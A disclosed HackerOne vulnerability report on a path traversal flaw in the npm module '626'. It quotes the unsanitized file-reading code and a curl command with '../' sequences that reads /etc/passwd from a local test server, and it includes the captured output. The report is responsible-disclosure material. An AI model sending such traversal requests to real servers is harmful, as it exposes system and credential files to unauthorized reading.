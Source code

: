 # [626] Path Traversal allows to read arbitrary file from remote server

## Report Details
- **Report ID**: 311216
- **URL**: https://hackerone.com/reports/311216
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-01-31T23:06:35.622Z
- **Disclosed**: 2018-02-26T21:30:35.015Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

There is Path Traversal vulnerability in 626 module, which allows to read arbitrary file from the remote server.

## Module

**626**

This package exposes a directory and its children to create, read, update, and delete operations over http.

https://www.npmjs.com/package/626

version: 1.1.1

Stats
0 downloads in the last day
19 downloads in the last week
103 downloads in the last month

~1200 estimated downloads per year


## Description

This vulnerability exists, because there is no sanitization of path of requested file:

```javascript
// node_modules/626/index.js, line 15:

    var url = resolveUrl(req.url);
    var file = path.resolve(url);
    log(url + ': ' + file);

    fs.readFile(file, 'utf8', function (err, content) {
        if (err) {
            return res.end('error: file not found ' + file);
        }

```

## Steps To Reproduce:

- install ```626``` module

```
$ npm install 626
```

- run server from command line:

```
$ ./node_modules/626/index.js
Listening on 8080
```

- use following command to confirm the vulnerability (pelase adjust number of ../ to reflect your system):

```
$ curl -v --path-as-is http://127.0.0.1:8080/../../../../etc/passwd
```

Result:

```
$ curl -v --path-as-is http://127.0.0.1:8080/../../../../etc/passwd
*   Trying 192.168.1.1...
* TCP_NODELAY set
* Connected to 192.168.1.1 (192.168.1.1) port 8080 (#0)
> GET /../../../../../etc/passwd HTTP/1.1
> Host: 192.168.1.1:8080
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Wed, 31 Jan 2018 22:51:06 GMT
< Connection: keep-alive
< Content-Length: 6774
<
##
# User Database
#
# Note that this file is consulted directly only when the system is running
# in single-user mode.  At other times this information is provided by
# Open Directory.
#
# See the opendirectoryd(8) man page for additional information about
# Open Directory.
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
(...)
```

## Supporting Material/References:

Configuration:

- macOS 10.13.3
- Chromium 66.0.3331.0 (Developer Build) (64-bit) 
- Node.js version: v8.9.3
- npm version: 5.5.1
- curl 7.54.0


Please feel free to invite module maintainer to this report. I haven't contacted maintainer as I want to keep the process of fixing and disclosing bug consistent through HackerOne platform only.

I hope my report will help to keep Node.js ecosystem and its users safe in the future.

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability allows to read content of any file on the remote server where 626 is run.

## Attachments
No attachments
